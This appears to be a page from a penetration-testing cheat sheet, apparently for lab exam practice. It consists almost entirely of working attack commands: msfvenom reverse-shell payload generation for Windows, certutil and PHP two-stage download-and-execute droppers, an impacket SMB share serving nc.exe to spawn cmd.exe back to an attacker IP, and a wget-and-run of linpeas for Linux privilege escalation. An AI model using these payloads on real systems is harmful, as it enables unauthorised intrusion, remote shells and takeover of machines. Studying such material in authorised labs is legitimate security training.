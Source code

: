 Msfvenom based

```jsx
//32 bit
msfvenom -p windows/shell_reverse_tcp -f exe -o shell.exe LHOST=192.168.45.3 LPORT=443
//64 bit
msfvenom -p windows/x64/shell_reverse_tcp -f exe -o shell.exe LHOST=192.168.45.3 LPORT=443
//download + execute (2 stage)
certutil -urlcache -split -f http://192.168.45.3/shell.exe C:/Windows/Temp/shell.exe
C:/Windows/Temp/shell.exe
```

PHP custom two stager - Windows

```jsx
<?php
$download = system('certutil.exe -urlcache -split -f http://192.168.45.210/shell.exe shell.exe', $val)
?>
```

```jsx
<?php
$exec = system('shell.exe', $val)
?>
```

### SMB Sharing+ CMD reverse shell (use when other payloads don’t work)

```jsx
python /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support Share ~/Desktop/scripts/shells
```

example of usage:

```jsx
cmd /c //192.168.45.213/Share/nc.exe -e cmd.exe 192.168.45.213 4444
```

Refer to here next: [Got shitty cmd shell?](Cheat%20sheet%20b2ec1956b01746ed807a1363890b898f.md) 

# Privilege escalation

## Linux

<aside>
💡 Please get some TTY 🙂 [TTY Linux](Cheat%20sheet%20b2ec1956b01746ed807a1363890b898f.md)

</aside>

### Enumeration

```jsx
wget http://192.168.49.136/linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh
```
